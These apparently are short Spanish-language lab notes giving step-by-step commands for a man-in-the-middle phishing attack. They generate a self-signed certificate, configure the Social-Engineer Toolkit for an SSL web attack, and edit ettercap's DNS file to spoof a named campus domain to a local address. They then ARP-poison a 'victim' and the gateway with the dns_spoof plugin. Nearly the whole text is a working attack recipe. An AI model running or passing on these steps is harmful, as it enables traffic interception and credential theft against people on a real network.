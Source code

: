 # Certificates
Generar certificados en linux.pem
openssl req -newkey rsa:2048 -new -nodes -x509 -days 3650 -keyout key.pem -out cert.pem
mkdir /etc/ssl/public
cp key.pem /etc/ssl/private
cp cert.pem /etc/ssl/public

nano /etc/setoolkit/set.config

WEBATTACK_SSL=ON
WEB_PORT=443

PEM_CLIENT=/etc/ssl/public.PEM
PEM_SERVER=/etc/ssl/private/private.PEM


setoolkit
1
2
3


Instalar certificado a víctima

nano /etc/ettercap/etter.dns
  campus.ceacfp.com A 172.16.8.24

ettercap -G

desactivar primera opción 
arrancar ettercap

tres puntos --> plugins --> activar dns_spoof
tres puntos --> host --> scan host

Target 1 --> gateway
Target 2 --> Victima

Menú de MITM (Bola) --> ARP Poisoning --> primera opcion marcada OK

Pulsamos Play --> envenar victimas




